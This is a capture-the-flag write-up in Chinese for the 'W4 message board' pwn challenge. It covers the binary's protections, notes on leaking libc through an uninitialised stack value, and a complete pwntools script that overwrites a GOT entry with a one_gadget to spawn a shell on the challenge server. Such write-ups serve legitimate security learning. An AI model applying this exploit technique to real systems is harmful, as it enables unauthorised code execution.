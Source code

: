 # W4 message board

## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 逆向

一开始就要拿到puts的地址？how to？  
scanf也只能修改任意地址一次，又要怎么做？

分别利用栈初始化和one_gadget即可

## 踩过的坑

1. libcBase并不是无中生有，而是在栈上存在未初始化的`_IO_2_1_stderr_`
2. 数字会覆盖到栈上；垃圾字符会导致scanf一直输入不了；而'+'能使scanf跳过输入，
不覆盖栈内容
3. ELF里的symbols不止可以找函数，找stderr这样的标签都是可以的
4. got可写，那么可以利用one_gadget来使一个函数直接运行打开shell（但是要注意限制条件）
5. 注意got里的函数是不可写的，只有.got.plt里的函数可写
6. one_gadget在本地不一定是可用的，在我的电脑上就没开起来（但是验证了可行性）

## EXPLOIT

```python
from pwn import *

def payload(lo):
    global sh
    if lo:
        sh = process('msgboard')
        gdb.attach(sh)
    else:
        sh = remote('node4.buuoj.cn', 27179)

    # payload 1, leak _IO_2_1_stderr_
    sh.sendline(b'2 + +') # 
    sh.recvuntil(b'is ') # skip
    sh.recvuntil(b'is ') # skip
    stderr = int(sh.recvline())

    if lo:
        libc = ELF('/usr/lib/libc.so.6')
    else:
        libc = ELF('libc-2.31.so')
    libcBase = stderr - libc.symbols['_IO_2_1_stderr_']
    print(hex(libcBase)) # check it
    putsGotAddr = libcBase + libc.symbols['puts'] # shift

    if lo:
        oneGadget = libcBase + 0xfabcf # r9 == 0 && rdx == 0 && [rsp + 0x70] == 0
    else:
        oneGadget = libcBase + 0xe3b01 # r15 == 0 && rdx == 0

    # payload 2, send puts addr shifted from stderr
    sh.sendline(str(putsGotAddr).encode())

    elf = ELF('msgboard')
    symA = elf.bss(0xa0 - 0x60)
    printfGot = elf.got['__isoc99_scanf']
    offset = (printfGot - symA) // 4 # locate printfGot
    print(offset)

    # payload 3, modify printf to one_gadget
    sh.sendlineafter(b'ons', str(offset).encode()) # idx
    sh.sendlineafter(b'ion', str(oneGadget & 0xffffffff).encode()) # content, 32b
    # now running printf opens shell

    sh.interactive()

```

Done.
